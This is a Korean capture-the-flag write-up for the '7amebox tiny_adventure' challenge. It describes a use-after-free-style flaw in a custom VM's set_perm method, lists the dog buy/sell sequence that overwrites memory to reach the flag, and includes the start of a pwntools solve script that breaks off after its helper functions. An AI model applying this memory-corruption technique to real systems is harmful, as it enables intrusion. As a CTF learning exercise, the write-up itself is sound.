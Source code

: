 set_perm 메소드에서 해당 페이지가 페이지의 key 리스트에 존재하는지 확인하지 않고 free해버린다. 따라서 이를 통해서 페이지에 쌍을 추가할 수 있다.

(r10+0x306)에 6이 저장돼 있기 때문에 6번 free를 할 수 있고 강아지를 6마리 더 살 수 있기 때문에 r10+0x303에 overwrite 할 수 있다. 


여기서 또 하나의 문제가 존재하는데 만약에 강아지를 251마리 사고 6마리를 팔고 다시 6마리를 사면 r10+0x303에 0x100000보다 큰 값이 저장된다. (내가 free한 메모리) 그런데 메모리는 0x100000 보다 작기 때문에 해당하는 위치에 값을 쓸 수 없다. 즉, 마지막에 산 강아지를 통해 할당된 메모리에 write 하려고 하면 error가 발생한다. (```self.memory[addr+0ffset] = data[offset] & 0b1111111```에서 error 발생)


이를 해결하기 위해서 처음에 강아지를 250마리만 산 뒤에 6마리를 팔고 다시 7마리를 사면 0x100000보다 작은 값을 r10+0x303에 쓸 수 있다.
 
 
 
 ## exploit 방법
 1. 강아지를 250마리 산다.
 2. 강아지를 6마리 판다.
 3. 강아지를 7마리 사고 마지막 강아지는 avatar를 그려줌으로써 입력을 넣어준다. 입력으로 "*"을 121개 이상 넣어준다. (flag를 읽기 위해서 마지막에 "z"도 넣어준다.) 
 4. 내가 만든 stage_map을 움직이면서 "*"를 먹고 power를 700보다 크게 만든다.
 5. "z" monster를 물리쳐서 flag를 읽는다. 

c.f) 문제를 풀 때 attach를 해서 디버깅을 해야하는데 이 문제는 firm 파일을 건드리기가 힘들기 때문에 _7amebox_patched.py의 op 메소들에 print를 추가함으로써 디버깅을 할 수 있다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

#context.log_level = 'debug'

file_path="/home/sungyun/round2/7amebox-tiny_adventure/vm_tiny.py"

def write_tri(data):

        buf=[0 for i in range(3)]

        buf[0] = chr(data  & 0b000000000000001111111)
        buf[1] = chr((data & 0b111111100000000000000)>>14)
        buf[2] = chr((data & 0b000000011111110000000) >>7)
        return "".join(buf)

def buy_4_dog(ans,char=""):
	p.recvuntil(">")
	p.sendline("2")
	p.recvuntil(">")
	if ans=="n":
		p.sendline("n")
	elif ans=="y":
		p.sendline("y")
		p.sendline(char)

def sell_4_dog(addr):
	p.recvuntil(">")
	p.sendline("3")
	p.recvuntil(">")
	p.sendline(addr)

def go_north():
	p.recvuntil(">")
	p.sendline("w")

```